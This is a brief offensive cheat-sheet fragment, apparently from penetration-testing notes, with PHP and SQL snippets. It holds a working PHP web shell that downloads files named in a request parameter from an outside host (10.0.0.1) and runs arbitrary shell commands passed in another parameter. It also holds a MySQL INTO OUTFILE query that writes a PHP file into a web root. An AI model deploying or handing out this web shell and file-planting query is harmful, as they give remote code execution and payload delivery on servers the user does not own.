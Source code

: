 ## PHP

### File upload and command execution
```php
<?php if (isset($_REQUEST['fupload'])) {
	file_put_contents($_REQUEST['fupload'],
	file_get_contents('http://10.0.0.1/' . $_REQUEST['fupload']));
};
if (isset($_REQUEST['fexec'])) {
	echo '<pre>' . shell_exec($_REQUEST['fexec']) . '</pre>';
} ?>
```

### Echo IP Address
`<?php echo $_SERVER["REMOTE_ADDR"];`

### MySQL
`SELECT "<?phpinfo()" into OUTFILE "/var/www/html/infox.php"`

